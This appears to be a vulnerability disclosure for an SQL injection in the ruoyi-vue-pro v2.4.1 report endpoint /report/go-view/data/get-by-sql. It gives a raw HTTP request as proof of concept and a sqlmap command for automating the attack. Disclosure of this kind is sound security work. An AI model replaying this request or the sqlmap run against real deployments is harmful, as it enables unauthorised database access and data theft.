 BUG_Author

Longlong Gong

# Project

Address: [ruoyi-vue-pro](https://gitee.com/zhijiantianya/ruoyi-vue-pro)

## SQL injection

###  `/report/go-view/data/get-by-sql` SQL injection

[Affected version]

v2.4.1



[Affected Component]

/report/go-view/data/get-by-sql



[Software]

https://gitee.com/zhijiantianya/ruoyi-vue-pro/archive/refs/tags/v2.4.1(jdk8/11).zip



[Description]

There is an SQL injection vulnerability in the SQL parameters of the `/report/go view/data/get-by-sql ` interface in the ruoyi vue pro system v2.4.1. Hackers can exploit this vulnerability to obtain sensitive server information

POC

```
POST /admin-api/report/go-view/data/get-by-sql HTTP/1.1
Host: 127.0.0.1:48080
Content-Length: 18
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
Authorization: Bearer 086046e45f974777a8c524c4980d3f91
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/json
Accept: application/json, text/plain, */*
tenant-id: 1
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:3000
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"sql":"*"}
```

```
use sqlmap：python sqlmap.py -r poc.txt --level 3 --risk 2
```

ruoyi-vue-pro-v2.4.1(jdk8-11)\yudao-module-report\yudao-module-report-biz\src\main\java\cn\iocoder\yudao\module\report\controller\admin\goview\GoViewDataController.java

![image-20250302125945435](assets/image-20250302125945435.png)

![image-20250302130006760](assets/image-20250302130006760.png)

Report Management ->Large Screen Designer ->Projects ->My All Projects. After importing the initial SQL file, here is an SQL example. Click Preview, capture the POC written above, and directly use level 3 and risk 2 to successfully attack the sqlmap

![image-20250302125648561](assets/image-20250302125648561.png)

![image-20250302125703090](assets/image-20250302125703090.png)

![image-20250302130437650](assets/image-20250302130437650.png)

![image-20250302125733536](assets/image-20250302125733536.png)

![image-20250302125747000](assets/image-20250302125747000.png)
